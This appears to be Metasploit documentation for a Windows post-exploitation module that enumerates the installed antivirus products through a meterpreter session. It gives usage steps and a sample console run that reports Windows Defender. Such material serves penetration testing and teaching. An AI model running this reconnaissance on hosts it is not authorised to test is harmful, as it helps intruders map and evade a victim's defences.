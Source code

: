## Vulnerable Application

This module will enumerate all installed AntiVirus applications on the target Windows OS

## Verification Steps
1. Start msfconsole
2. Get meterpreter session
3. Do: ```use post/windows/gather/enum_av```
4. Do: ```set SESSION <session id>```
5. Do: ```run```

## Options

**SESSION**

The session to run this module on.

## Scenarios

### Windows 10 (20H2 build 19042.1645)

  ```
  [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.4:49178) at 2019-12-10 14:18:44 -0700
  meterpreter > bg
  [*] Backgrounding session 1...
  
  msf6 > use windows/gather/enum_av
  msf6 post(windows/gather/enum_av) > set session 1
  session => 1
  msf6 post(windows/gather/enum_av) > run
  
  [*] Found AV product:
  displayName=Windows Defender
  instanceGuid={D68DDC3A-831F-4fae-9E44-DA132C1ACF46}
  pathToSignedProductExe=windowsdefender://
  pathToSignedReportingExe=%ProgramFiles%\Windows Defender\MsMpeng.exe
  productState=401664
  timestamp=Thu, 21 Apr 2022 15:50:46 GMT
  
  [*] Post module execution completed
  ```
